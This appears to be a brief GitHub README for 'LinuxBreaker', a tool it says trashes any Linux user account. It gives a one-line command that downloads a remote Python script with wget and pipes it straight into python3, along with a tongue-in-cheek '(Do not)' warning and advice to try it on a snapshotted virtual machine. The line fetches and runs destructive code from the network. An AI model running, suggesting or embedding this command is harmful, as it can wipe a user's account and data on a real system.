 # LinuxBreaker
Trashes any user account in Linux

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.
